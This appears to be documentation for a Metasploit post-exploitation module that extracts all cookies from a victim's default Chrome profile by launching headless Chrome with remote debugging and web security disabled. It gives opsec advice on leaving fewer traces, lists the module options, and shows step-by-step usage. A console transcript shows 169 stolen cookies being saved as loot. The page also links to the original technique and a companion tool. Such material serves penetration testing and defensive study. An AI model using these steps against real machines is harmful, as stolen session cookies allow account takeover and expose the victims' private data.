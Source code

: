 ## Gather Chrome Cookies

Reads all cookies from the Default Chrome Profile on the target machine. Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/).

## Opsec

### Disk writes
This writes randomly-named files to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

### Running processes
On non-meterpreter sessions, a headless Chrome process will be left running after module execution is completed. You can still find and kill this process manually after the module execution is completed.

## Vulnerable Application

This module works on Chrome 59 or later on all operating systems. This module has been tested on Windows, Linux, and OSX.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WRITABLE_DIR**

  Directory used to write temporary files.

  Two files are written, with random 10-15 character alphanumeric filenames. One file contains an html file for Chrome and the other is where the cookies are saved. Both files are deleted during cleanup.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Windows

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITEABLE_DIR                           no        Where to write the html used to steal cookies temporarily, and the cookies. Leave blank to use the default for the OS (/tmp or AppData\Local\Temp)

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>

msf post(multi/gather/chrome_cookies) > run

[*] Determining session platform
[*] Platform: windows
[*] Type: meterpreter
[*] Activated Chrome's Remote Debugging (pid: 9452) via "\Program Files (x86)\Google\Chrome\Application\chrome.exe" --window-position=0,0 --enable-logging --v=1 --disable-translate --disable-extensions --disable-background-networking --safebrowsing-disable-auto-update --disable-sync --metrics-recording-only --disable-default-apps --mute-audio --no-first-run --disable-web-security --disable-plugins --disable-gpu  --user-data-dir="\Users\msfdev\AppData\Local\Google\Chrome\User Data"  --remote-debugging-port=9222  \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[+] Found Match
[+] 169 Chrome Cookies stored in /home/msfdev/.msf4/loot/20190108065112_default_172.22.222.200_chrome.gather.co_082863.txt
[*] Removing file \Users\msfdev\AppData\Local\Temp\YaW8HKZdkk2s85D.html
[*] Removing file \Users\msfdev\AppData\Local\Google\Chrome\User Data\chrome_debug.log
[*] Post module execution completed
msf5 post(multi/gather/chrome_cookies) >

```

## Future features

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.
